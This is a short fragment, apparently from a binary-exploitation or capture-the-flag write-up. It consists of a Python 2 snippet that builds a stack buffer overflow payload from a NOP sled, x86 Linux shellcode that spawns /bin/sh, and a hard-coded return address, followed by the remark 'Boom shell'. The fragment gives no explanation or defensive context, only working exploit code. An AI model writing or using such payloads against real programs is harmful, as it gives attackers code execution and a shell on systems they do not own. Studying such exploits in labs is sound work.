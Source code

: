 
```python
payload += '\x90' * (76 - 21)
payload += '\x6a\x0b\x58\x99\x31\xc9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'
payload += '\xb0\xf7\xff\xbf'

print payload
```

Boom shell